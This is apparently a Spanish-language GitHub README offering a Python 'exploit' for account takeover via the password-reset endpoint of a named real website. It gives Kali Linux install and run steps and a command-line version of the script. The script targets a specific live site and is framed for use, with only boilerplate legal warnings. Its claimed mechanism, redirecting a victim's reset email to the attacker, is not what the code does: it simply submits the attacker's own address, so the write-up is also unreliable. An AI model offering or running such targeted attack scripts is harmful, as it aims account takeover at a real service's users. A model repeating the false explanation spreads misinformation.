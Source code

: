 # forgotpasswordvulnerabilitie
Este exploit es un script en Python diseñado para aprovechar una posible vulnerabilidad en un sistema de restablecimiento de contraseñas de una página web. El código simula una solicitud de restablecimiento de contraseña pero redirige el correo de restablecimiento al correo electrónico del atacante en lugar del correo legítimo del usuario. Este tipo de ataque puede permitir que el atacante obtenga control de la cuenta de la víctima si la vulnerabilidad existe.

¿Qué hace el código?
Define las cabeceras HTTP que simulan una solicitud legítima desde un navegador web hacia el servidor del sitio de restablecimiento de contraseñas.

Crea un payload que contiene el correo electrónico del atacante, engañando al servidor para que este correo reciba el enlace de restablecimiento de contraseña en lugar del correo de la víctima.

Guía de Uso del Exploit:
Advertencia: Este tipo de actividad es ilegal si se utiliza para explotar vulnerabilidades sin el consentimiento del propietario del sitio web. Asegúrate de tener permiso explícito antes de realizar pruebas de seguridad en cualquier sistema. Usa este conocimiento éticamente.
Pasos para ejecutar el script en Kali Linux:
Instalar Python y la librería requests:

Kali Linux generalmente ya viene con Python preinstalado. Para asegurarte de que lo tienes y actualizar, puedes ejecutar:



sudo apt update
sudo apt install python3 python3-pip
Luego, instala la librería requests si no la tienes instalada:

pip3 install requests
Crear el archivo Python con el exploit:

Abre una terminal y crea un archivo Python que contenga el código del exploit. Puedes hacerlo usando cualquier editor de texto, como nano. Por ejemplo:



nano exploit_reset_password.py
Luego, copia y pega el código del exploit en el archivo exploit_reset_password.py:

python

import requests

def exploit_reset_password(target_url, attacker_email):
    headers = {
        'Host': 'app.upchieve.org',  # Cambiar según el dominio del objetivo
        'Content-Type': 'application/json',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36',
        'Accept': 'application/json, text/plain, */*',
        'Origin': 'https://app.upchieve.org',
        'Referer': 'https://app.upchieve.org/resetpassword',
        'X-Requested-With': 'XMLHttpRequest'
    }

    payload = {
        "email": attacker_email
    }

    try:
        response = requests.post(target_url, json=payload, headers=headers)
        
        if response.status_code == 200:
            print(f"Exploit enviado con éxito. Verifica tu correo: {attacker_email}")
        else:
            print(f"Fallo al enviar exploit. Código de estado: {response.status_code}")
            print(response.text)
    except Exception as e:
        print(f"Error al intentar explotar: {e}")

# Ejemplo de uso
target_url = "https://app.upchieve.org/auth/reset/send"
attacker_email = "attacker.email@gmail.com"

exploit_reset_password(target_url, attacker_email)
Guarda el archivo presionando CTRL+O para guardar y luego CTRL+X para salir de nano.

Dar permisos de ejecución al archivo Python:

Para ejecutar el archivo Python en Kali Linux, debes asegurarte de que tiene los permisos correctos. Usa el siguiente comando para darle permisos de ejecución:



chmod +x exploit_reset_password.py
Ejecutar el exploit:

Ahora, puedes ejecutar el exploit desde la terminal de Kali Linux usando Python 3. Asegúrate de estar en el directorio donde guardaste el archivo exploit_reset_password.py, y luego ejecuta:



python3 exploit_reset_password.py
Esto enviará la solicitud de restablecimiento de contraseña al servidor web objetivo usando los parámetros que has especificado en el script.

Opciones avanzadas:
Modificar parámetros en tiempo de ejecución: Si quieres cambiar los valores de target_url o attacker_email sin editar el archivo cada vez, puedes modificar el código para aceptar esos valores como argumentos de la línea de comandos. Aquí tienes un ejemplo actualizado del script para aceptar estos parámetros:

python

import requests
import sys

def exploit_reset_password(target_url, attacker_email):
    headers = {
        'Host': 'app.upchieve.org',
        'Content-Type': 'application/json',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36',
        'Accept': 'application/json, text/plain, */*',
        'Origin': 'https://app.upchieve.org',
        'Referer': 'https://app.upchieve.org/resetpassword',
        'X-Requested-With': 'XMLHttpRequest'
    }

    payload = {
        "email": attacker_email
    }

    try:
        response = requests.post(target_url, json=payload, headers=headers)
        
        if response.status_code == 200:
            print(f"Exploit enviado con éxito. Verifica tu correo: {attacker_email}")
        else:
            print(f"Fallo al enviar exploit. Código de estado: {response.status_code}")
            print(response.text)
    except Exception as e:
        print(f"Error al intentar explotar: {e}")

if __name__ == "__main__":
    if len(sys.argv) != 3:
        print("Uso: python3 exploit_reset_password.py <target_url> <attacker_email>")
    else:
        target_url = sys.argv[1]
        attacker_email = sys.argv[2]
        exploit_reset_password(target_url, attacker_email)
Ahora puedes ejecutarlo desde la terminal de la siguiente manera:



python3 exploit_reset_password.py https://app.upchieve.org/auth/reset/send attacker.email@gmail.com
Advertencia Legal:
Este tipo de pruebas deben hacerse únicamente en entornos controlados o con la debida autorización. Intentar explotar sistemas de manera no autorizada puede ser ilegal y violar leyes de seguridad informática.



NOTAS DEL CREADOR: Este exploit fue creado con la ayuda de chatgpt y el creador encontro la vulnerabilidad gracias a un video de HACKER FUDDI en youtube TODOS LOS CREDITOS A EL> https://www.youtube.com/watch?v=EI52YTRfGRU

